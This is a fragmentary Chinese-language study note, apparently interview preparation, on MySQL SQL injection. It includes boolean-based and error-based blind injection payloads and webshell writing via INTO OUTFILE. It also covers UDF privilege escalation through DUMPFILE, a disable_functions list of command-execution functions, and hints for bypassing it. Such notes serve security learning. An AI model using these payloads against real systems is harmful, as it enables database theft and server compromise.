 索引是帮助MySQL高效获取数据的数据结构。MYISAM和InnoDB存储引擎只支持BTree索引；MEMORY和HEAP储存引擎可以支持HASH和BTREE索引。

#### ORDER BY在注入的运用


#### GPC是什么？GPC之后怎么绕过？
如果`magic_quotes_gpc=On`，PHP解析器就会自动为post、get、cookie过来的数据增加转义字符“\”，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符（认为是php的字符）引起的污染。



#### Mysql一个@和两个@什么区别
- @为用户变量，使用`SET @var1=1`赋值
- @@ 为系统变量 ，包括全局变量`show global variables \G;`和会话变量`show session variables \G;`


#### 注入/绕过常用的函数
1. 基于布尔SQL盲注
    - `left(database(),1)>'s'`
    - `ascii(substr((select table_name information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+`
    - `ascii(substr((select database()),1,1))=98`
    - `ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23`
    - `regexp`正则注入 `select user() regexp '^[a-z]';`
    - `select user() like 'ro%'`
2. 基于报错的SQL盲注
    - `Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;  `


#### MySQL存储过程

#### 各种写shell的问题
1. 写shell用什么函数？ 
    - `select '<?php phpinfo()> into outfile 'D:/shelltest.php'`
    - `dumpfile`
    - `file_put_contents`
2. outfile不能用了怎么办？ `select unhex('udf.dll hex code') into dumpfile 'c:/mysql/mysql server 5.1/lib/plugin/xxoo.dll';`可以UDF提权 https://www.cnblogs.com/milantgh/p/5444398.html
3. dumpfile和outfile有什么不一样？outfile适合导库，在行末尾会写入新行并转义，因此不能写入二进制可执行文件。
4. sleep()能不能写shell？
5. 写shell的条件？
    - 用户权限
    - 目录读写权限
    - 防止命令执行：`disable_functions`，禁止了`disable_functions=phpinfo,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source`，但是可以用dl扩展执行命令或者ImageMagick漏洞 https://www.waitalone.cn/imagemagic-bypass-disable_function.html
    - open_basedir: 将用户可操作的文件限制在某目录下



#### 

### 注入类型
